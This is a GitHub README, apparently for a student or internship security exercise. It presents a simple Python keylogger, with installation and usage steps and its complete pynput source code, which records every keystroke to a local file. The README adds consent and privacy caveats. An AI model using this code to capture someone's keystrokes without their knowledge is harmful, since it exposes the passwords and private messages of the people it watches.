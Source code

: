 # Simple Keylogger

This Python script implements a basic keylogger that records and logs keystrokes. It captures keys pressed by the user and saves them to a specified file (`keylog.txt` by default). It is essential to handle ethical considerations and permissions responsibly when working with keyloggers.

## Features

- **Keystroke Logging**: Records each keystroke (including special keys) and logs them to a text file.
- **Graceful Exit**: Stops logging when the `Esc` key is pressed.
- **Error Handling**: Handles different types of key events gracefully using `pynput.keyboard`.

## Requirements

- Python 3.x
- Libraries: pynput

## Installation

1. Install the required libraries using pip:

   ```bash
   pip install pynput
   ```

2. Clone the repository or download the `keylogger.py` script.

## Usage

1. Run the `keylogger.py` script:

   ```bash
   python keylogger.py
   ```

2. Start typing. The keylogger will start recording keystrokes and save them to `keylog.txt`.

3. To stop the keylogger, press the `Esc` key.

## Notes

- **Ethical Considerations**: Ensure that you have explicit permission to use a keylogger, as logging keystrokes without consent may violate privacy laws.
- **File Security**: Store and handle the log file (`keylog.txt`) securely, as it contains sensitive information.
- **Customization**: Modify the script as needed to suit specific requirements, such as changing the log file path or adding additional logging functionality.

## Example

```python
from pynput import keyboard

log_file_path = "keylog.txt"
keys = []

def on_press(key):
    try:
        keys.append(key.char)
        with open(log_file_path, "a") as log_file:
            log_file.write(key.char)
    except AttributeError:
        keys.append(str(key))
        with open(log_file_path, "a") as log_file:
            log_file.write(f" [{str(key)}] ")

def on_release(key):
    if key == keyboard.Key.esc:
        return False

with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

## Acknowledgements

This project was created with the support of [Prodigy InfoTech].

## License

This project is licensed under the MIT License - see the LICENSE file for details.


# PRODIGY_CS_04
